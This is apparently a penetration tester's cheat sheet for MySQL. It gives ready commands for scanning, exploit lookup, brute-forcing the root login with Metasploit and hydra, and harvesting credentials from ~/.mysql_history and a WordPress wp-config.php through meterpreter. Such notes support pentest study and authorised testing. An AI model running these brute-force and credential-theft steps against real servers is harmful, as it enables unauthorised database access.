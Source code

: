 # MySQL
- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```
```
search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
  - Focus on root.
  - root password can be NULL.
  - hydra does not attempt NULL password?
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need shell on target and MySQL account to run `mysqladmin flush-hosts`.
  - Avoid brute-forcing MySQL? Test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

- Basic SQL commands.
```
show databases;
use <database>;
show tables;
select * from <table>;
```

- Check users' mysql history file for credentials and other information.
```
cat ~/.mysql_history
```

- Check Web app config file for MySQL root password e.g. WordPress (WAMP).
  - Requires admin privileges.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
